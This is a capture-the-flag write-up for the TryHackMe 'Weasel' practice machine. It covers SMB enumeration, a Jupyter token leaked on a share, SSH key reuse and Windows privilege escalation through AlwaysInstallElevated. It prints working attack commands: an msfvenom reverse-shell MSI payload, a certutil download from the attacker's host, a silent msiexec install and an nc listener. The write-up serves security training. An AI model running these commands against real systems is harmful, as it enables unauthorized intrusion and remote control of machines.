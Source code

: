 ```yaml
---
published: true
layout: post_toc
title: THM-Weasel
categories: Writeup
---
```


I think the data science team has been a bit fast and loose with their project resources.

#### Nmap Result

```bash 
nmap -sV -sC -O -T4 -n -Pn -oA fastscan -Pn
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-1.png){:width="70%"}

Based on the Nmap results, it appears that the machine is likely running a Windows operating system. This conclusion is supported by the presence of open ports associated with the SMB (Server Message Block) protocol, which is commonly used in Windows environments for file sharing and network communication. 

Additionally, the detection of a Jupyter Notebook deployment suggests that the machine may also be used for data science or development purposes. Jupyter Notebook is a popular platform for interactive computing, often utilized by data scientists and researchers. Taken together, the presence of open ports related to SMB and the availability of a Jupyter Notebook deployment point towards a Windows machine with potential data science or development activities.

#### Smb enumeration 

```bash 
smbclient --no-pass -L //10.10.215.176
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-2.png){:width="70%"}

we can see the available shares on a remote SMB server at the machine  there is available share named "datasci-team". but no additional comment or description is provided.

Let's connect to the datasci-team using smbclient. 
```bash 
smbclient --no-pass //10.10.215.176/datasci-team
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-3.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-4.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-5.png){:width="70%"}

It appears that the majority of the files are related to Weasel research. However, a noteworthy file of interest has been discovered. Within the "misc" directory, there is a file containing a Jupyter token, which could potentially provide access to the Jupyter Notebook instance.

#### Jupyter notebook 

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-6.png){:width="70%"}

With the Jupyter token we obtained, we can easily gain access to the Jupyter Notebook instance. By using this token, we can authenticate ourselves and access the features and functionalities provided by Jupyter Notebook.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-7.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-8.png){:width="70%"}

By utilizing the functionality of Jupyter Notebook, it is possible to exploit a reverse shell technique, enabling us to gain access to the shell of the target machine.



#### Adding key to SSH Agent

Let's examine the user accounts by reviewing the contents of the /etc/passwd file. This file contains information about the users on the system, including their usernames, user IDs, group IDs, home directories, and default shells.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-9.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-10.png){:width="70%"}

Upon inspecting the home directory of dev-datasci, we discovered several files associated with Jupyter Notebook and Anaconda. Of particular interest to us is the file named dev-datasci-lowpriv_id_ed25519, which we can utilize to establish a connection to the previously identified open SSH. 

We can simply add the obtained ssh keys using the commands below and connect the the ssh keys.
```bash
eval "$(ssh-agent -s)"
ssh-add dev-datasci-lowpriv_id_ed25519
ssh -i dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv@10.10.215.176
```


#### User Flag

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-11.png){:width="70%"}

Once you have successfully connected to the SSH, you can easily retrieve the user flag located in the dev-datasci-lowpriv directory on the Desktop.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-12.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-13.png){:width="70%"}


![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-14.png){:width="70%"}

Take note the results of the default creds of the Default User Name.

#### Privilege Escalation 

By executing the "net user" command, we can observe that there are a total of six user accounts, including our own. Our focus is on the administrator account.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel.png){:width="70%"}

Through a registry query, it has been determined that the "AlwaysInstallElevated" key is currently set to 1. This configuration suggests that privilege escalation can be achieved by utilizing the "msiexec" command. As a next step, we can generate an MSI payload to exploit this opportunity.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip-address> LPORT=4445 -f msi -o reverse.msi
```

```bast 
# From our Machine hosting the payload
sudo python3 -m http.sever 80
```

```bash
# From Victim(Target) Machine
certutil -urlcache -split -f http://10.8.120.163/reverse.msi
```

To exfiltrate our msfvenom payload to the target machine, we can utilize Python and certutil. Following that, we can proceed with privilege escalation by leveraging the "AlwaysInstallElevated" registry setting.

```bash 
runas /user:dev-datasci-lowpriv "msiexec /i C:\Users\dev-datasci-lowpriv\Downloads\rev.msi /qn"
```

```
# listener 
nc -lvnp 4445
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-15.png){:width="70%"}

#### Root Flag 

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-16.png){:width="70%"}

Once you have successfully gained access, you can effortlessly retrieve the root flag located in the Administrator directory on the Desktop.

--- 
#### References
- https://tryhackme.com/room/weasel
- https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54
